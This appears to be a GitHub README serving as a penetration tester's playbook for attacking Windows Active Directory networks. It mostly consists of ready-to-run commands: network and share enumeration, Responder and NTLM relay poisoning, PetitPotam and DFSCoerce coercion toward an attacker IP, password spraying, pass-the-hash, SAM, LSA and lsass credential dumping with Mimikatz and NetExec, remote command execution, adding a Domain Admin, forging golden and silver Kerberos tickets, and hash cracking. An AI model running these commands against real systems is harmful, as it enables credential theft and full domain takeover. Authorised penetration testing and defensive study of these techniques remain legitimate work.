 ://github.com/NotMedic/NetNTLMtoSilverTicket


# Gunnajs-Playbook
How to pentest like a Gunnaj

![alt text](https://github.com/GunzyPunzy/Gunnajs-Playbook/blob/main/anfader.jpg)

# Toolbox
<details>
  <summary> Utils </summary> 

  ### NMAP
  https://nmap.org/
  
  ### linWinPwn - Active Directory Vulnerability Scanner
  https://github.com/lefayjey/linWinPwn
  
  <details>
    <summary> Installation </summary>
    
  #### Install the dependency NetExec
    
  ```shell
  apt install pipx git
  pipx ensurepath
  pipx install git+https://github.com/Pennyw0rth/NetExec
  ```
    
  #### Git clone the repository and make the script executable
  ```shell
  git clone https://github.com/lefayjey/linWinPwn
  cd linWinPwn; chmod +x linWinPwn.sh
  ```
  #### Install requirements using the `install.sh` script (using standard account)
  ```shell
  chmod +x install.sh
  ./install.sh
  ```
  </details>
  
  ### BloodHound
  https://github.com/BloodHoundAD/BloodHound
  
  <details>
    <summary> Installation </summary> 
    
  ```shell
  apt-get install bloodhound
  ```
  ```shell
  neo4j console
  ```
  #### Navigate to http://localhost:7474/ 
  
  </details>
  
  ### Responder
  https://github.com/lgandx/Responder
  
  ### NetExec
  https://www.netexec.wiki/
  
  <details>
    <summary> Installation </summary> 
  
  #### Installation
  ```shell
  apt install pipx git
  pipx ensurepath
  pipx install git+https://github.com/Pennyw0rth/NetExec
  ```
  #### Integrate Bloodhound
  ```shell
  nano ~/.nxc/nxc.conf
  ```
  ```shell
  [BloodHound]
  bh_enabled = True
  bh_uri = 127.0.0.1
  bh_port = 7687
  bh_user = <username>
  bh_pass = <password>
  ```
  
  </details>
  
  ### Evil-WinRM
  https://github.com/Hackplayers/evil-winrm
  
  <details>
    <summary> Installation </summary>
    
  ```shell
  gem install evil-winrm
  ```
  </details>
  
  ### FindUncommonShares
  https://github.com/p0dalirius/FindUncommonShares
  
  <details>
    <summary> Installation </summary> 
    
  ```shell
  git clone https://github.com/p0dalirius/FindUncommonShares
  ```
  </details>
  
  ### lnkbomb
  https://github.com/dievus/lnkbomb
  <details>
    <summary> Installation </summary> 
  
  #### Clone this repo
  ```shell
  git clone https://github.com/dievus/lnkbomb
  ```
  #### Install prerequirements
  ```shell
  pip install -r requirements.txt
  ```
  </details>
  
  ### PetitPotam
  https://github.com/topotam/PetitPotam
  
  ### DFSCoerce
  https://github.com/Wh04m1001/DFSCoerce
  
  ### Impacket
  https://github.com/fortra/impacket
  
  ### pypykatz
  https://github.com/skelsec/pypykatz
  <details>
    <summary> Installation </summary> 
  
  #### Install prerequirements
  ```shell
  pip3 install minidump minikerberos aiowinreg msldap winacl
  ```
  #### Clone this repo
  ```shell
  git clone https://github.com/skelsec/pypykatz.git
  cd pypykatz
  ```
  #### Install it
  ```shell
  python3 setup.py install
  ```
  </details>

  ### certipty
  https://github.com/ly4k/Certipy
  
  ### breach-parse
  https://github.com/hmaverickadams/breach-parse
  
  ### PRET
  https://github.com/RUB-NDS/PRET
  <details>
    <summary> Installation </summary> 
    
  ```shell
  git clone https://github.com/RUB-NDS/PRET && cd PRET
  ```
  ```shell
  python -m pip install colorama pysnmP
  ```
  </details>

</details>

# Wordlists
<details>
  <summary> Lists </summary> 
  
  ### Generate wordlist
  https://zzzteph.github.io/weakpass/
  
  ### Top 10 million
  https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt (8.1 MB)
  
  ### Crackstation
  https://crackstation.net/files/crackstation.txt.gz (14.6 GB)
  
  ### Large p-list
  https://download.g0tmi1k.com/wordlists/large/36.4GB-18_in_1.lst.7z (48.4 GB)
  
  ### Rockyou2021
  https://github.com/ohmybahgosh/RockYou2021.txt (91.6 GB)
</details>

# Network enumeration
<details>
  <summary> NMAP </summary> 
  
  ### Nmap
  #### Ping scan
  ```shell
  sudo nmap -sP -p -oN <output.txt> <IP/mask>
  ```

  #### Full scan
  ```shell
  sudo nmap -PN -sC -sV -p- -oN <output.txt> <IP/mask>
  ```

  #### smb vuln scan
  ```shell
  sudo nmap -PN --script smb-vuln* -p139,445 -oN <output.txt> <IP/mask>
  ```

  ### Find DC IP
  #### Show domain name and DNS
  ```shell
  sudo mncli dev show eth0
  ```

  #### Show DC IP
  ```shell
  nslookup -type=SRV _ldap._tcp.dc._msdcs.<AD_domain>
  ```

  #### Show DC controllers in cmd
  ```shell
  nltest /dclist:<domainname>
  ```
</details>

# Acitve directory enumeration
<details>
  <summary> linWinPwn </summary> 
  
  ### Unauthenticated
  - Module ad_enum
      - RID bruteforce using crackmapexec
      - Anonymous enumeration using crackmapexec, enum4linux-ng, ldapdomaindump, ldeep
      - Pre2k authentication check on collected list of computers
  - Module kerberos
      - kerbrute user spray
      - ASREPRoast using collected list of users (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Blind Kerberoast
      - CVE-2022-33679 exploit
  - Module scan_shares
      - SMB shares anonymous enumeration on identified servers
  - Module vuln_checks
      - Enumeration for WebDav, dfscoerce, shadowcoerce and Spooler services on identified servers
      - Check for ms17-010, zerologon, petitpotam, nopac, smb-sigining, ntlmv1, runasppl weaknesses
  ```shell
   sudo ./linWinPwn.sh -t <Domain_Controller_IP_or_Target_Domain> -M user <output_dir>
  ```

  ### With AD-user credentials 
  - DNS extraction using adidnsdump
  - Module ad_enum
      - BloodHound data collection
      - Enumeration using crackmapexec, enum4linux-ng, ldapdomaindump, windapsearch, SilentHound, ldeep
          - Users
          - MachineAccountQuota
          - Password Policy
          - Users' descriptions containing "pass"
          - ADCS
          - Subnets
          - GPP Passwords
          - Check if ldap-signing is enforced, check for LDAP Relay
          - Delegation information
      - crackmapexec find accounts with user=pass 
      - Pre2k authentication check on domain computers
      - Extract ADCS information using certipy and certi.py

  - Module kerberos
      - kerbrute find accounts with user=pas
      - ASREPRoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Kerberoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Targeted Kerberoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
  - Module scan_shares
      - SMB shares enumeration on all domain servers using smbmap and cme's spider_plus
      - KeePass files and processes discovery on all domain servers
  - Module vuln_checks
      - Enumeration for WebDav, dfscoerce, shadowcoerce and Spooler services on all domain servers
      - Check for ms17-010, ms14-068, zerologon, petitpotam, nopac, smb-signing, ntlmv1, runasppl weaknesses
  - Module mssql_enum
      - Check mssql privilege escalation paths
  ```shell
  sudo ./linWinPwn.sh -t <Domain_Controller_IP> -u <AD_user> -p <AD_password> -o <output_dir>
  ```
</details>

# MITM
<details>
  <summary> Responder </summary> 
  
  ### Kickstart responder
  ```shell
  responder -I eth0
  ```

  ### Force lm downgrade
  ```shell
  responder -I eth0 --lm
  ```
  
  ### DHCP poisining
  ```shell
  responder -I eth0 -d
  ```
 </details>
 <details>
  <summary> lnkbomb </summary> 
  
  ### Create a lnk file for a share with read/write rights
  ```shell
  python3 lnkbomb.py -t <target_IP> -a <attacker_IP> -s Shared -u <AD_user> -p <AD_password> -n <server_name> --windows
  ```
   
  ### Remove the lnk file
  ```basb
  python3 lnkbomb.py -t <target_IP> -a <attacker_IP> -s Shared -u <AD_user> -p <AD_password> -n <server_name> --windows -r <file_name.url>
  ```
    
</details>
<details>
  <summary> Crackmapexec NTLM-relay </summary>   

  ### Evaluate no smb-signing and create an IP txt file for TLMRelayx
  ```shell
  crackmapexec smb <IPs> --gen-relay-list <outputIPs.txt>
  ```

  ### NTLMRelayx
  ```shell
  sudo python3 ntlmrelayx.py -of <dumofile.txt> -tf <outputIPs.txt> -smb2support
  ```

  ### Disbale SMB and HTTP in Responder.conf
  ```shell
  [Responder Core]

  ; Servers to start
  SQL = On
  SMB = Off
  RDP = On
  Kerberos = On
  FTP = On
  POP = On
  SMTP = On
  IMAP = On
  HTTP = Off
  HTTPS = On
  DNS = On
  LDAP = On
  DCERPC = On
  WINRM = On
  SNMP = Off
  ```

### Kicksart responder then
  ```shell
  sudo responder -I eth0 -dwv
  ```
</details>

<details>
  <summary> PetitPotam </summary> 
  
  ### Force NTLM authentication
  ```shell
  python3 PetitPotam.py -d <Domain_Name> -u <AD_user> -p <AD_password> <attacker_IP> <target_IP>
  ```
</details> 
  
<details>
  <summary> DFSCoerce </summary> 
  
  ### Force NTLM authentication
  ```shell
  python3 dfscoerce.py -d <Domain_Name> -u <AD_user> -p <AD_password> <attacker_IP> <target_IP>
  ```
</details> 

# Password Spraying

<details>
  <summary> NetExec Password spray </summary> 
  
  ### Spray a password on a user list
  ```shell
  netexec smb <Domain_Controller_IP> -u users.txt -p <password> --continue-on-success
  ```

</details>

# Authentication
    
<details>
  <summary> NetExec domain authentication </summary> 
  
  ```shell
  sudo NetExec smb <Domain_Controller_IP> -u <AD_user> -p <AD_password> -H <hash[LM:NT]> 
  ```

</details> 
  
<details>
  <summary> NetExec local authentication </summary> 
  
  ```shell
  NetExec smb <target_IP> -u <username> -H <hash[LM:NT]> --local-auth 
  ```

</details> 

<details>
  <summary> NetExec rdp authentication </summary> 
  
  ```shell
  NetExec rdp <target_IP> -u <username> -H <hash[LM:NT]> --local-auth 
  ```

</details> 

# Share enumeration

<details>
  <summary> List readable or writable shares </summary> 

```shell
NetExec smb <target_IP> -u <username> -p <password>  --shares --filter-shares READ WRITE
```

</details>

<details>
  <summary> List uncommon shares </summary> 

```shell
./FindUncommonShares.py -u <username> -p <password> -d <AD_domain> --dc-ip <Domain_Controller_IP> --check-user-access
```

</details> 

<details>
  <summary> Mount and unmount shares </summary> 

### Mount share
```shell
sudo mount.cifs <//ip/folder> <./folder> -o user=<username>,password=<password>,dom=<AD_domain>
```

### Unmount share
```shell
sudo umount <./folder>
```

### Search for keywords in files
```shell
grep -i <keyword> *
```

</details> 

# Credential dumping

<details>
  <summary> NetExec domain authentication </summary> 

  ### Dump NT:hash with masky with domain user
  #### Get ADCS server name
  ```shell
  NetExec ldap <target_IP> -u <username> -p <password> -H <hash[LM:NT]]> -M adcs
  ```
  #### Retrieve the NT hash using PKINIT
  ```shell
  NetExec ldap <target_IP> -u <username> -p <password> -H <hash[LM:NT]> -M masky -o CA=<'ADCS_server_name'>
  ```
  
  ### Dump SAM with domain user
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]]> --sam
  ```
  
   ### Dump LSA with domain user
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash_NT]> --lsa
  ```
</details> 

<details>
  <summary> local authentication </summary> 
  
  ### Dump SAM on local computer
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> --local-auth --sam
  ```
  
  ### Dump LSA on local computer
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> --local-auth --lsa
  ```

  ### Dump lsass with hash_spider to recursively using BloodHound to find local admins path (adminTo)
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> --local-auth -M hash_spider
  ```

  ### Stored User Names and Passwords on Windows Credential Manager
  ```shell
  rundll32.exe keymgr.dll KRShowKeyMgr
  ```
  
</details> 

<details>
  <summary> NetExec dump with ReadLAPSPassword rights </summary> 

  ### Check if the user can read LAPS
  ```shell
  NetExec ldap <AD_domain> -u <username> -p <password> -H <hash[LM:NT]> -M laps
  ```
  
  ### Dump SAM 
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> -M laps --sam
  ```
  
  ### Dump LSA 
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> --M laps --lsa
  ```
  
</details> 

<details>
  <summary> Run Mimikatz from impackets smb share </summary> 

  ### Starting a SMB Server
  ```shell
  impacket-smbserver.py <shareName> <sharePath>
  ```
  
  ### Run Mimikatz from host and write output to the share
  ```shell
  \\<target_IP>\<shareName>\mimikatz.exe "privilege::debug: sekurlsa::logonpasswords exit" > \\<target_IP>\<shareName>\output.txt
  ```
  
</details> 

<details>
  <summary> linWinPwn </summary> 
  
### With administrator Account (using password, NTLM hash or Kerberos ticket)
- All of the "Standard User" checks
- Module pwd_dump
    - LAPS and gMSA dump
    - secretsdump on all domain servers
    - NTDS dump using impacket, crackmapexec and certsync
    - Dump lsass on all domain servers using: procdump, lsassy, nanodump, handlekatz, masky 
    - Extract backup keys using DonPAPI, HEKATOMB
```shell
sudo ./linWinPwn.sh -t <Domain_Controller_IP> -d <AD_domain> -u <AD_user> -p <AD_password> -H <hash[LM:NT]> -K <kerbticket[./krb5cc_ticket]> -o <output_dir>
```
</details> 

<details>
  <summary> Examine lsass dump with pypykatz </summary> 

```shell
pypykatz lsa minidump lsass.DMP
```
</details> 

# Remote Code Execution

<details>
  <summary> NetExec </summary> 
  
  ### Executes command via the follwoing protocols: 
  * `wmiexec` executes commands via WMI
  * `atexec` executes commands by scheduling a task with windows task scheduler
  * `smbexec` executes commands by creating and running a service
  
  #### command
  ```shell
  NetExec <protocol> <target_IP> -u <username> -p <password> -H <hash[LM:NT]]> -x <command>
  ```
  #### PowerShell
  ```shell
  NetExec <protocol> <target_IP> -u <username> -p <password> -H <hash[LM:NT]> -X <command>
  ```
</details> 

<details>
  <summary> Evil-WinRM </summary> 
  
  ```shell
  evil-winrm -i <target_IP> -u <username> -p <password> -H <hash[LM:NT]>
  ```
</details> 

<details>
  <summary> Command to add a new Domain Admin </summary> 
  
  #### Create the new user
  ```Shell
  net user <username> <password> /add /domain
  ```

  #### Add the new user to the Domain Admins group
  ```Shell
  net group "Domain Admins" <username> /add /domain
  ```
</details> 

# AV Evasion

<details>
  <summary> NetExec </summary> 
  
  </details> 

</details> 
  
# golden and silver tickets

<details>
  <summary> Tickets </summary> 
  
#### Get user SID value by using the Windows Terminal
```cmd
wmic useraccount where name="USER" get sid
```

#### Silver ticket
```shell
python3 ticketer.py -nthash <nthash> -domain-sid <domain-sid> -domain <AD_domain> -dc-ip <Domain_Controller_IP> -spn <service>/<AD_domain>l <user>
```
#### Golden ticket
```shell
python3 ticketer.py -nthash <nthash> -domain-sid <domain-sid> -domain <AD_domain> -dc-ip <Domain_Controller_IP> <user>
```
#### Set the ticket for impacket use
```shell
export KRB5CCNAME=<TGS_ccache_file>
```

#### List tickets
```shell
klist
```

#### Execute remote commands with any of the following by using the TGT
```shell
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

</details>

# Printers
<details>
  <summary> PRET </summary> 

  ### Nmap printers
  ```shell
  nmap -p 9100 <IP/mask>
  ```
  ### cheat sheet
  ```shell
  http://hacking-printers.net/wiki/index.php/Printer_Security_Testing_Cheat_Sheet
  ```
  ### Kickstart PRET 
  ```shell
  pret.py target {ps,pjl,pcl}
  ```
</details>

## Hash cracking
<details>
  <summary> Hashcat </summary> 
  
  ### LM
  ```shell
  hashcat64.exe -m 3000 -a 3 LM-hashes.txt -o cracked.txt
  ```

  ### NTLM
  ```shell
  hashcat64.exe -m 1000 -a 3 NTLM-hashes.txt -o cracked.txt
  ```

  ### NTLMv1
  ```shell
  hashcat64.exe -m 5500 -a 3 NTLMv1-hashes.txt -o cracked.txt
  ```

  ### NTLMv2
  ```shell
  hashcat64.exe -m 5600 -a 0 NTLMv2-hashes.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos ASREP
  ```shell
  hashcat64.exe -m 18200 -a 0 asrep-hashes.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS
  ```shell
  hashcat64.exe -m 13100 -a 0 krb5tgs-hashes.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS AES128
  ```shell
  hashcat64.exe -m 19600 -a 0 krb5tgsaes128-hashes.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS AES256
  ```shell
  hashcat64.exe -m 19700  -a 0 krb5tgsaes256.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 etype 17, Pre-Auth
  ```shell
  hashcat64.exe -m 19800  -a 0 krb5tetype17.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 etype 18, Pre-Auth
  ```shell
  hashcat64.exe -m 19900  -a 0 krb5tetype18.txt <passlist.txt> -o cracked.txt
  ```

  ### MsCache 2 (slow af)
  ```shell
  hashcat64.exe -m 2100 -a 0 mscache2-hashes.txt <passlist.txt> -o cracked.txt
  ```
</details>

